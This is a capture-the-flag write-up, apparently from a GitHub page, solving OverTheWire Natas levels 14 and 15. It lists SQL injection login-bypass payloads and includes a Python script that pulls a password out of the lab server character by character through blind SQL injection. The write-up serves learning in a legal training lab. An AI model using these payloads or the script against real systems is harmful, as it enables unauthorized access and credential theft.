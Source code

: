 **Beware:** The text you get may not work. Why? Cause you have BMP in the beginning. Remove that and you are good to go.(It was a shocker to me why that didn't work initially)

## natas14
Now this is an SQLi problem. We try the regular expressions with password first. We try the below list in general-
```markdown
1. admin' --
2. admin' #
3. admin'/*
4. ' or 1=1--
5. ' or 1=1#
6. ' or 1=1/*  
7. ') or '1'='1--
8. ') or ('1'='1--
```
Now use it on both password and username, but with double quotes(`"`)since source code uses `"`. And it turns out the correct ans is `username= point 5` and `password=anything`.

## natas15
The first we see the Source code, which tells us we only have `username` where we can try SQLi. 
Now when we put `natas15`, the user doesn't exist but `natas16` does. This gives us the clue that we may get the password of natas16 using natas16. By that I mean, if i am in natas15, i can see the password of natas15 in Source code. 
<br>
Now here is a concept of SQL wer should know. If we want to guess that if username="something" and password has "a" or begins with "a". We use the below idea-

```sql
-- EXAMPLE
-- when we want "a" to exist somewhere in password
select * from users where username="name" and password like "%a%"; 
-- when we want password to start with "test"
select * from users where username="name" and password like "test%"; 
-- when we want password to end with "test"
select * from users where username="name" and password like "%test"; 
-- The dollar assume "anything" plus "your_given_string"
```
Since the source code mentions we have table with username(64 char max) and password(64 char max),
This case is called BLIND SQLi, cause we can't figure out what to do. Nothing usual works.<br>
Now we will write a python code using 2nd example which will give us the password. This is basically brute forcing the password.
<br>
The code useful will be-

```python
import requests
import string

url = 'http://natas15.natas.labs.overthewire.org/'
auth = ('natas15', '<password>')  # replace <password> with the actual password
characters = string.ascii_letters + string.digits
known_password = ''

session = requests.Session()
session.auth = auth

for i in range(32):  # assuming the password is 32 characters long
    for char in characters:
        sql = f'natas16" AND password LIKE BINARY "{known_password}{char}%'
        response = session.get(url, params={'username': sql})
        if 'This user exists.' in response.text:
            known_password += char
            print(known_password)
```